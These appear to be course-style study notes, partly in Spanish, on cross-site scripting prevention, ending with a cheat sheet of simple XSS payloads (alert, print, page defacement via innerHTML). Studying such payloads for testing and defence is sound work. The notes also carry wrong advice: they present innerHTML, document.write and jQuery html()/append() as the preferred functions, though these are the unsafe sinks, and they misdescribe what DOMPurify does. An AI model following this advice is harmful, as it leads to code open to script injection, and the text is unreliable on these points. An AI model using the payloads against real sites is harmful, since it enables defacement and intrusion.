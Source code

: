 ##### Input sanitization

Comprobar que no nos introducen ningún script dónde no deberían, cómo este código que sustituye cualquier carácter especial con una / previniendo vulnerabilidades DOM XSS
```javascript
<script type="text/javascript" src="dist/purify.min.js"></script>
let clean = DOMPurify.sanitize( dirty );
```

##### Direct input

Tenemos que tener en cuenta no utilizar nunca algunos tags directos:
1. JavaScript code `<script></script>`
2. CSS Style Code `<style></style>`
3. Tag/Attribute Fields `<div name='INPUT'></div>`
4. HTML Comments `<!-- -->`

Preferiblemente habría que usar funciones JavaScript:
- `DOM.innerHTML`
- `DOM.outerHTML`
- `document.write()`
- `document.writeln()`
- `document.domain`
Y funciones JQuery:
- `html()`
- `parseHTML()`
- `add()`
- `append()`
- `prepend()`
- `after()`
- `insertAfter()`
- `before()`
- `insertBefore()`
- `replaceAll()`
- `replaceWith()`

##### Server configuration

- Using HTTPS across the entire domain.
- Using XSS prevention headers.
- Using the appropriate Content-Type for the page, like `X-Content-Type-Options=nosniff`.
- Using `Content-Security-Policy` options, like `script-src 'self'`, which only allows locally hosted scripts.
- Using the `HttpOnly` and `Secure` cookie flags to prevent JavaScript from reading cookies and only transport them over HTTPS.


#### CheatSheet:
|   |   |
|---|---|
|**XSS Payloads**||
|`<script>alert(window.origin)</script>`|Basic XSS Payload|
|`<plaintext>`|Basic XSS Payload|
|`<script>print()</script>`|Basic XSS Payload|
|`<img src="" onerror=alert(window.origin)>`|HTML-based XSS Payload|
|`<script>document.body.style.background = "#141d2b"</script>`|Change Background Color|
|`<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>`|Change Background Image|
|`<script>document.title = 'HackTheBox Academy'</script>`|Change Website Title|
|`<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script>`|Overwrite website's main body|